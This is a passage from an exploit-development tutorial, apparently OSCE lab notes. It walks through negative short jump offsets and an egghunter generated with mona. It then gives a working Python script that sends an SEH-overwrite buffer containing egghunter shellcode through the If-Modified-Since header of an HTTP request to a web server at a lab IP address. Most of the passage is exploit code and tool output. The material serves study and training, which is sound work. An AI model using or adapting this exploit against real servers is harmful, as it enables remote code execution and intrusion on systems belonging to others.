 Awesome, the offset is 50 bytes just like we planned. The trick with negative jumps is that you have to jump back through your jump instruction opcodes (2 bytes). So for a negative jump, you actually have to tell it to jump back `n+2` bytes where `n` is the desired offset. Calculating negative short jumps can be confusing as the values max out at `0x80` which comes right after the largest positive short jump value `0x7f`. So as the value grows after `0x80` (`0x81, 0x82, ...0xff`), the length of the negative jump actually **decreases**! Luckily, `offset.py` takes care of all that calcuation for us. We just give it our desired outcome in decimal. 

## Egghunter

We will use mona to generate an egghunter with the tag `PWNS`. (`!mona egg -t PWNS`)
```terminal_session
"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
"\xef\xb8\x50\x57\x4e\x53\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
```

Let's add this to our exploit code and make sure we jump to it appropriately. We already know the *true* start of our `A` buffer is `0006FE48`. So let's use `offset.py` to tell us the offset to our current location for where we wanted to place our egghunter. 
```terminal_session
root@kali:~/OSCE/ # offset                                            
Enter Address #1: 6fe48
Enter Address #2: 6ff46
[+] Hex offset: 0xfe
[+] Decimal offset: 254
[-] ESP Sub Adjust Opcodes: \x54\x58\x2c\x7f\x2c\x7f\x50\x5c
[+] ESP Add Adjust Opcodes: \x54\x58\x04\x7f\x04\x7f\x50\x5c
```

So we know we need to put 254 `A` values before our egghunter. Let's update our exploit script. 
```python
import socket
import sys

host = "192.168.1.201"
port = 80

seh = "\x84\xf5\x44"
nseh = "\xeb\xcc\x90\x90"

#Tag = PWNS
egghunter = ("\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
"\xef\xb8\x50\x57\x4e\x53\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7")

#PO @ 304
crash = "A" * 254
crash += egghunter
crash += "A" * (304 - len(crash))
crash += nseh
crash += seh


req = "GET / HTTP/1.1\r\n"
req += "Host: 192.168.1.201\r\n"
req += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0\r\n"
req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
req += "Accept-Language: en-US,en;q=0.5\r\n"
req += "Accept-Encoding: gzip, deflate\r\n"
req += "Connection: close\r\n"
req += "Upgrade-Insecure-Requests: 1\r\n"
req += "If-Modified-Since: Wed, " + crash + "\r\n\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(req)
```